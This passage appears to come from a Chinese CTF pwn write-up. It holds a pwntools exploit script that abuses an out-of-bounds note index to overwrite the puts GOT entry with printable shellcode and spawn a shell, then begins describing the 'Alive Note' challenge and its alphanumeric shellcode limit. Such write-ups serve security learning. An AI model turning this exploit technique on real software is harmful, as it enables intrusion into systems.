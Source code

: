 ```python
	p.sendline(name)

def show(idx):
	cmd(2)
	p.recvuntil('Index :')
	p.sendline(str(idx))

def delete(idx):
	cmd(3)
	p.recvuntil('Index :')
	p.sendline(str(idx))

def quit():
	cmd(4)

note = 0x0804A060
offset = (elf.got['puts'] - note) / 4

sh = (
	'RY' + # push edx && pop ecx
	'jPX(A"(A"' + # set eax=0x50 && 2 * sub [0x41], 0x50
	'(A#(A#' + # 2 * sub [0x42], 0x50
	'jCX4CP[' + # set ebx=0
	'jpZ' + # set edx=0x70
	'jCX,@' # set eax=3
).ljust(0x22, 'P') + 'm '

print len(sh)
print disasm(sh)
for c in sh:
	if ord(c) <= 0x1F or ord(c) > 0x7F:
		raise ValueError, 'Value error.'

#gdb.attach(p, 'b *0x080487EF')

add(offset, sh)
payload = '\x90' * 0x30 + asm(shellcraft.sh())
#raw_input('@')
p.sendline(payload)

p.interactive()
```

# Adult Shellcode

## Alive Note

这道题的程序和上面的差不多，但具体利用部分有些不同。`add_note` 中一开始的数组越界还是存在的，后面读取 Name 的时候只能读 8 个字节，意味着 shellcode 只能 8 字节为单位地送，且 `check` 函数下面的提示说只能用 alphanumeric：
